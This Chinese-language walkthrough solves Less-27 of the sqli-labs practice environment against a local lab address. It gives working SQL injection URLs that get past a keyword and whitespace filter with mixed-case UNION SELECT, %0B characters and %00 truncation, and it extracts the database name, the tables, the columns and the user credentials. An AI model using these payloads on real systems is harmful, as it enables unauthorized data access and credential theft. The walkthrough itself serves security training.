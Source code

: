 ```yaml
---
title: Less - 27
date: 2023-03-16T13:30:43Z
lastmod: 2023-03-16T14:39:52Z
---
```


# Less - 27

---

# 通关教程

---

## 1、判断闭合

---

查看源码，可以看到该关卡的代码，如下

​![image](assets/image-20230316133326-5hw59r3.png)​

SQL的查询语句如下

​![image](assets/image-20230316142538-s1felln.png)​

为单引号字符型注入

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,database();%00
```

​![image](assets/image-20230316143045-ihr0qc3.png)​

---

## 3、查看数据表

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,(sELect (group_concat(table_name)) from (information_schema.tables) where (table_schema='security'));%00
```

​![image](assets/image-20230316143236-yjnzm8z.png)​

---

## 4、查看users表下的所有字段

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,(sELect (group_concat(column_name)) from (information_schema.columns) where (table_name='users'));%00
```

​![image](assets/image-20230316143818-31fqumw.png)​

---

## 5、查看username,password字段的值

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,(sELect (group_concat(username,password)) from (security.users));%00
```

​![image](assets/image-20230316143943-x9th91w.png)​

‍
